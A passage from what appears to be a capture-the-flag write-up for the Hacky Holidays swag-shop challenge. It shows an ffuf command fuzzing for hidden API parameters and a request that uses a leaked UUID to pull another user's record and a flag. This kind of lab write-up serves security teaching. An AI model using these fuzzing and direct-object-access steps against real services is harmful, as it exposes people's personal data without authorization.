 Now we're cooking. Two things to note here, first, we have cookies, and second, we have a user ID, `C7DCCE-0E0DAB-B20226-FC92EA-1B9043`.

I tried to use the cookies to authenticate on the purchase page, but unfortunately the cookies look to be a bait and don't work.

Let's instead take a closer look at that other endpoint.

**Request:**
```
GET /swag-shop/api/user
```

```js
{
    "error": "Missing required fields"
}
```

Hmm, looks like there's a parameter missing. Time to get fuzzy once more. This command will call the endpoint with every item in the parameter name word list as the query parameter until it finds a result with a non `400 Bad Request` status code:

```sh
$ ffuf -w burp-parameter-names.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/user\?FUZZ\=1 -fc 400 -mc all

uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
```

Okay, looks like `uuid` is the parameter that makes a well formed request. We do have an ID from before that we could put in as the value of the `uuid`.

**Request:**
```
GET /swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
```
```js
{
    "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
    "username": "grinch",
    "address": {
        "line_1": "The Grinch",
        "line_2": "The Cave",
        "line_3": "Mount Crumpit",
        "line_4": "Whoville"
    },
    "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

## Takeaways
- You'll frequently encounter content encoded as base64 on the web. Protip: If the string starts with `eyJ` it is probably encoded JSON
- Fuzzing is a technique that can be used to discover additional endpoints and how to use them
